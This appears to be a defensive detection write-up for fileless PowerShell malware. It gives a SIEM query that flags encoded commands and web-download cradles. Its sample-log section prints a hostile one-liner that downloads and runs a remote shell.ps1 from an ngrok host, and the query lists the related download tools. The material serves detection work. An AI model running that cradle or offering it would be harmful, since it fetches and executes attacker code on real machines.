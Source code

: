 # Fileless Malware with PowerShell

## Scenario Description

  Fileless attacks are the type of attacks that avoid writing files to the disk. They might have malicious code that operates entirely in memory, leveraging legitimate system tools and processes to execute their payloads. It doesn’t mean Fileless attacks don’t write files at all. They might start from a malicious document with a macro or a .LNK file (desktop shortcuts), but the remainder of the attack becomes fileless.Instead of dropping more executable files or scripts onto the target system, attackers inject malicious code directly into running processes or use built-in Windows tools like PowerShell, Windows Management Instrumentation (WMI), LOLBAS/LOLBINS, and registry keys to carry out their objectives [more](https://medium.com/maltrak/fileless-attacks-at-a-glance-weaponizing-powershell-microsoft-legitimate-apps-39d973096f6c).
## Objective

  To detect **potentially malicious PowerShell activity** by process arguments and command line
## Detection Logic / Query
```sql

  process.name: "powershell.exe" and 
  process.args:
    "*-EncodedCommand*" or 
    "*IEX*" or 
    "*Invoke-WebRequest*" or 
    "*Net.WebClient*" or 
    "*FromBase64String*" or
    "*DownloadString*"
```
## Sample Alert Screenshot

![Fileless Malware with PowerShell ](../../screenshots/fileless.png)
## Logs or Sample Event

```powershell
"@timestamp","process.name","process.command_line","process.args","event.code","winlog.event_id"
"Jun 4, 2025 @ 21:07:43.327","powershell.exe","""C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"" -command ""iex(New-Object Net.WebClient).DownloadString(‘ https://8edc-2401-4900-9156-fb4c-31f2-a653-5640-e4c9.ngrok-free.app/shell.ps1’)""","C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe, -command, iex(New-Object Net.WebClient).DownloadString(‘ https://8edc-2401-4900-9156-fb4c-31f2-a653-5640-e4c9.ngrok-free.app/shell.ps1’)",behavior,"-"
"Jun 4, 2025 @ 21:07:43.299","powershell.exe","""C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"" -command ""iex(New-Object Net.WebClient).DownloadString(‘ https://8edc-2401-4900-9156-fb4c-31f2-a653-5640-e4c9.ngrok-free.app/shell.ps1’)""","C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe, -command, iex(New-Object Net.WebClient).DownloadString(‘ https://8edc-2401-4900-9156-fb4c-31f2-a653-5640-e4c9.ngrok-free.app/shell.ps1’)","-","-"
```
## Detection Status

  - [ ] Detection Tested 
  - [ ]  Alert Triggered 